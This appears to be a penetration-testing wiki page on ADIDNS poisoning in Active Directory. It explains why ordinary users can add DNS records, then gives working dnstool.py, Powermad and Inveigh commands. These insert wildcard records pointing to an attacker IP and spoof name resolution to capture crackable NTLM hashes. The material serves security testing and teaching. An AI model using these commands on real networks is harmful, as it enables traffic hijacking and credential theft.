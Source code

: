 # ADIDNS poisoning

## Theory

In order to function properly, Active Directory services need DNS. In that matter, Active Directory Domain Services (AD-DS) offer an integrated storage and replication service for DNS records. This is called Active Directory Integrated DNS (ADIDNS).

Just like any other domain name resolution spoofing attack, if an attacker is able to resolve requests with an arbitrary IP address, traffic gets hijacked, the attacker becomes a man-in-the-middle and further attacks can be operated.

Since ADIDNS zone DACL (Discretionary Access Control List) enables regular users to create child objects by default, attackers can leverage that and hijack traffic.

ADIDNS zones can be remotely edited

* with **dynamic updates **(a DNS specific protocol used by machine accounts to add and update their own DNS records). Users can create records if they don't exist, and they will have full control over it. By default, users that don't own a record will not be able to edit it, or to add another one with the same name, even if the type is different (A, AAAA, CNAME, MX, and so on).
* by **using LDAP **to create dnsNode objects. While dynamic updates can't be used to inject a wildcard DNS record, LDAP can be (only if the record doesn't already exist, which is the case by default).

### Wildcard records & WINS

> Wildcard records allow DNS to function in a very similar fashion to LLMNR/NBNS spoofing. Once you create a wildcard record, the DNS server will use the record to answer name requests that do not explicitly match records contained in the zone. ([source](https://blog.netspi.com/exploiting-adidns/#wildcard))

:bulb: In some scenarios, adding a wildcard record the the proper ADIDNS zone won't work. This is usually due to the **WINS forward lookup** being enabled on that zone. WINS forward lookup makes the DNS server send a NBT-NS Query Request to a predefined WINS server when it receives an address record query for which it doesn't know the answer. In short, it serves the same purpose as the wildcard record. This feature needs to be disabled for the wildcard record to be used.

![Domain Controller > DNS Manager > zone properties > WINS](../../../.gitbook/assets/WINS\_lookup.png)

## Practice

### WINS forward lookup

{% tabs %}
{% tab title="UNIX-like" %}
The state of WINS forward lookup can be enumerated with [dnstool.py](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py) (Python). The entry type 65281 (i.e. "WINS") will exist if WINS forward lookup is enabled.

```bash
dnstool.py -u 'DOMAIN\USER' -p 'PASSWORD' --record '@' 'DomainController'
```
{% endtab %}

{% tab title="Windows" %}
The state of WINS forward lookup can be enumerated with [dnstool.py](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py) (Python). The entry type 65281 (i.e. "WINS") will exist if WINS forward lookup is enabled.

```powershell
Get-DNSServerResourceRecord -ZoneName "DOMAIN.FQDN" -RRType "WINS"
```
{% endtab %}
{% endtabs %}

### Manual record manipulation

{% tabs %}
{% tab title="UNIX-like" %}
An awesome Python alternative to Powermad's functions is [dnstool](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py). Theoretically, this script can be used to `add`, `modify`, `query`, `remove`, `resurrect` and `ldapdelete` records in ADIDNS.

```bash
# query a node
dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action query $DomainController

# add a node and attach a record
dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action add --data $AttackerIP $DomainController
```
{% endtab %}

{% tab title="Windows" %}
On Windows, the [Powermad ](https://github.com/Kevin-Robertson/Powermad)module can be used to manually add, view, edit, enable, disable or remove records and nodes. In the following examples, the wildcard (`*`) node/record is targeted but the examples should also work with other records (except things like `WPAD` that are in the [GQBL](wpad-spoofing.md#through-adidns-spoofing)).

```bash
# get the value populated in the DNSRecord attribute of a node
Get-ADIDNSNodeAttribute -Node * -Attribute DNSRecord

# creates a wildcard record, sets the DNSRecord and DNSTombstoned attributes
New-ADIDNSNode -Tombstone -Verbose -Node * -Data $ATTACKER_IP

# append, populate, or overwrite values in a DNS node attribute
Set-ADIDNSNodeAttribute -Node * -Attribute DNSRecord -Value (New-DNSRecordArray -Data $ATTACKER_IP) -Verbose

# a tombstoned record can be turned again into a valid record with the following command
Enable-ADIDNSNode -Node *

# disable (i.e. tombstone) a node
Disable-ADIDNSNode -Node *

# remove a node
Remove-ADIDNSNode -Node *

# check the wildcard record works/resolve a name
Resolve-DnsName NameThatDoesntExist
```

{% hint style="success" %}
**TL; DR**: the following command will add a new wildcard record (if it doesn't already exist) with the attacker IP set in the DNSRecord attribute

```bash
New-ADIDNSNode -Tombstone -Verbose -Node * -Data $ATTACKER_IP
```
{% endhint %}

{% hint style="warning" %}
**Warning**: in some environments, the disabling or removal of the records previously created for tests failed. The records were shown as tombstoned or nonexistant when using functions like `Get-ADIDNSNodeOwner`, `Get-ADIDNSNodeAttribute`, and so on. I think it was due to some replication issues.

However, the DNS Manager console was still showing those records and name resolution was still effective. It will probably stay an unsolved mystery for me, but testers need to keep this in mind when abusing ADIDNS.
{% endhint %}

More help on usage, support functions, parameters and attacks [here](https://github.com/Kevin-Robertson/Powermad#adidns-functions).
{% endtab %}
{% endtabs %}

{% hint style="info" %}
When adding records has no impact on name resolution or when the tools throw errors like `NoSuchObject`, it could be that the DNS zones in use are stored in the legacy `System` partition, or the `ForestDnsZones`, instead of the `DomainDnsZones` one.

This can be set with the `--legacy` or `--forest` option on dnstool.py, or with the `-Partition` argument for Powermad.
{% endhint %}

### Dynamic spoofing

Using [Inveigh](https://github.com/Kevin-Robertson/Inveigh) (Powershell), the following command will&#x20;

* operate [LLMNR, NBT-NS and mDNS spoofing](llmnr-nbtns-mdns-spoofing.md)
* operate ADIDNS spoofing
  * `combo` looks at LLMNR/NBNS requests and adds a record to DNS if the same request is received from multiple systems
  * `ns` injects an NS record and if needed, a target record. This is primarily for the GQBL bypass for wpad.&#x20;
  * `wildcard` injects a wildcard record
* set the threshold at which the combo ADIDNS spoofing mode will take effect
* enable showing NTLM challenge/response captures from machine accounts
* set the Challenge to `1122334455667788` (to [crack NTLM hashes](../credentials/cracking.md#practice) with [crack.sh](https://crack.sh))

```
Invoke-Inveigh -ConsoleOutput Y -ADIDNS combo,ns,wildcard -ADIDNSThreshold 3 -LLMNR Y -NBNS Y -mDNS Y -Challenge 1122334455667788 -MachineAccounts Y
```

[This wiki page](https://github.com/Kevin-Robertson/Inveigh/wiki/Basics) can be really useful to help master Inveigh and its support functions

* `Clear-Inveigh` to clear Inveigh's hashtable
* `Get-Inveigh` to get data from Inveigh's hashtable
* `Stop-Inveigh` to stop all running modules
* `Watch-Inveigh` to enable real time console output

## References

{% embed url="https://blog.netspi.com/exploiting-adidns/" %}

{% embed url="https://blog.netspi.com/adidns-revisited/" %}

{% embed url="https://snovvcrash.rocks/2020/12/28/htb-hades.html#spoofing-active-directory-integrated-dns" %}

